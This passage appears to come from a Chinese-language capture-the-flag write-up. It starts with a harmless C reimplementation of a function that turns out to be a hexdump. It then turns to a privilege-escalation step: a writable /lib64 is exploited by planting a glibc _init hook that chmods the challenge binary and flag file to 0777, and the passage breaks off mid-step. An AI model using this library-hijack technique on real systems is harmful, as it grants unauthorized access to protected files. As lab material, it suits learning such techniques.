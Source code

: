 那么按照神秘函数的逻辑写一个程序跑跑看吧。

```c
#include <stdio.h>
#include <cstdint>

void dec(uint32_t param)
{
    int8_t count = 0x1c;
    char buffer[1000] = {};
    char *pbuffer = buffer;

    do
    {
        uint8_t val1 = param >> (count & 0x1f) & 0xf;
        int8_t val2 = val1 > 9 ? 0x57: 0x30;
        *pbuffer = val2 + val1;
        pbuffer++;
        count -= 4;
    }
    while (count > -4);
    printf("%s", buffer);
}

int main()
{
    dec(0x20001018);
    dec(0xfeadae83);
    dec(0xe0);
    return 0;
}
```

通过运行发现其实是个简单的 hexdump。


## 传达不到的文件

探索容器环境，发现 /lib64 目录是可写的，那么就在 glibc 上做手脚吧。

这里使用重写 glibc _init 函数的方式，让 chall 执行时把 flag 文件的权限都改成 777，从而让普通用户能读取 flag。

步骤如下：

1. 编译一个带`_init`函数的 hook
    ```c
    #include <stdio.h>
    #include <sys/stat.h>

    void _init(void)
    {
        printf("Init");
        chmod("chall", 0777);
        chmod("flag2", 0777);
    }
    ```
